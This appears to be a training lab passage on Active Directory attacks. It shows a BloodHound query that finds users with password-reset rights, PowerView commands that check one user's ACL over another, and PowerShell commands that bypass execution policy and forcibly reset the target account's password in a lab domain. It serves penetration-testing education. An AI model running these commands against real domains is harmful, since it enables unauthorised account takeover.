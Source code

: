 
---
---
## Identifying Vulnerable Accounts

We can use `BloodHound` to identify if we have those access rights. Using a Cypher query, let us search for `Pedro`, and whether he has `ForceChangePassword`, `GenericAll` or `AllExtendedRights` over any account:

```cypher
MATCH p=((n:User {name:"PEDRO@INLANEFREIGHT.LOCAL"})-[r:ForceChangePassword|GenericAll|AllExtendedRights]->(m)) RETURN p
```

![pedro_passwordAttacks.jpg](https://academy.hackthebox.com/storage/modules/219/pedro_passwordAttacks.jpg)

#### Identifying Pedro's Access Rights over Yolanda

```powershell
PS C:\Tools> Set-ExecutionPolicy Bypass -Scope CurrentUser -Force
PS C:\Tools> Import-Module .\PowerView.ps1
PS C:\Tools> $userSID = (Get-DomainUser -Identity pedro).objectsid
PS C:\Tools> Get-DomainObjectAcl -Identity yolanda | ?{$_.SecurityIdentifier -eq $userSID}
```

```powershell
Get-DomainObjectAcl -Identity yolanda -ResolveGUIDs | ?{$_.SecurityIdentifier -eq $userSID}
```

## Abusing PasswordReset from Windows

> Password Reset with Set-DomainUserPassword

```powershell
Set-DomainUserPassword -Identity yolanda -AccountPassword $((ConvertTo-SecureString 'NewpasswordfromW1' -AsPlainText -Force)) -Verbose
```

> Password Reset with Active Directory Module

```powershell
Import-Module ActiveDirectory
Set-ADAccountPassword yolanda -NewPassword $((ConvertTo-SecureString 'NewpasswordfromW2' -AsPlainText -Force)) -Reset -Verbose
```

---
---
